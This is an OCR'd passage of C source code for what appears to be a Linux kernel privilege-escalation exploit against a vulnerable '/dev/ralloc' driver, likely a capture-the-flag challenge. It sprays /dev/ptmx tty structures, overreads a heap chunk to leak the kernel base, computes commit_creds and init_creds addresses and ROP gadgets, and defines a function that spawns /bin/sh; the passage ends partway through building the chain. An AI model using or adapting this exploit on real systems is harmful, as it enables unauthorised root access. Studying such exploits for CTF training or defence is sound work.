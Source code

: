 ```C
 msg.index = idx;
 msg.size = size;
 printf("[*] Filling Chunk at Index: %ld with %s\n", idx, ptr);
 if (ioctl(fd, 0x1002,  &msg) == -1)
 {
  puts("Error!!");
  exit(1);
 }
}


void get(int fd, unsigned long idx, unsigned long size, char *ptr)
{
 struct message msg;
 msg.index = idx;
 msg.size = size;
 msg.buf = ptr;
 printf("[*] Reading data from index: %ld\n", idx);
   if (ioctl(fd, 0x1003, &msg) == -1)
 {
  puts("Error!!");
  exit(1);
 }
}

void get_shell()
{
    printf("is system?\n");
    char *shell = "/bin/sh";
    char *args[] = {shell, NULL};
    execve(shell, args, NULL);
}



int main() {
  unsigned long buf[0x420 / sizeof(unsigned long)];
  /* open drivers */
  int fd = open("/dev/ralloc", O_RDONLY);
  if (fd < 0) {
    perror("/dev/ralloc");
    return 1;
  }

  for(int i=0; i<0x100; i++)
 {
   spray_fd[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
 }

  /* leak kbase & kheap */
  //int ptmx = open("/dev/ptmx", O_RDWR | O_NOCTTY);
  kmalloc(fd, 0, 0x400);
  get(fd, 0, 0x420, &buf);
  kbase = buf[131] - ptm_unix98_ops;
  buf[19] = 0xdeadbeef;

  printf("[*] Leak                :   %p\n", buf[131]);
  printf("[*] Base                :   %p\n", kbase);
  printf("[*] Gadget              :   %p\n", kbase + 0xb55c7);
  commit_creds = kbase + commit_creds;
  init_creds = kbase + init_creds;
  pop_rdi = kbase + 0x8b8a0;      // pop rdi; ret
  unsigned long mov_rdi_rax = kbase + 0xffffffff813153bc - 0xffffffff81000000;
```